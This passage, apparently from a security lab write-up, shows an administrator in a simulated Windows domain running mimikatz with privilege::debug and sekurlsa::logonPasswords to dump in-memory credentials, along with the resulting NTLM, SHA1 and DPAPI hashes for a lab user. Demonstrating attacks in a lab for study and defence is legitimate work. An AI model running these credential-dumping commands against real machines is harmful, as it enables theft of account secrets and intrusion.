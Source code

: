 Once connected with RDP, we launch a `cmd.exe` with administrator privileges (simulating an attacker already on the machine), and we grab the credential in memory with `mimikatz`:
```
C:\Windows\system32>C:\Tools\Mimikatz\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 Mar  8 2020 18:30:37
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonPasswords
```

As expected, we get back the authentication secrets of `pikachu`:
```
Authentication Id : 0 ; 975893 (00000000:000ee415)
Session           : RemoteInteractive from 2
User Name         : pikachu
Domain            : WINDOMAIN
Logon Server      : DC
Logon Time        : 4/23/2020 3:43:17 PM
SID               : S-1-5-21-1901789854-418502547-2738234678-1105
        msv :
         [00000003] Primary
         * Username : pikachu
         * Domain   : WINDOMAIN
         * NTLM     : f21ee4c57999c25b18e6c12b300852c5
         * SHA1     : b7bc2cd7efd7515e8ba85733649ea36abf6dfeb4
         * DPAPI    : e2cabaccd1cc71f8393f669e30c68a28
        tspkg :
        wdigest :
         * Username : pikachu
         * Domain   : WINDOMAIN
         * Password : (null)
        kerberos :
         * Username : pikachu
         * Domain   : WINDOMAIN.LOCAL
         * Password : (null)
        ssp :
        credman :
```
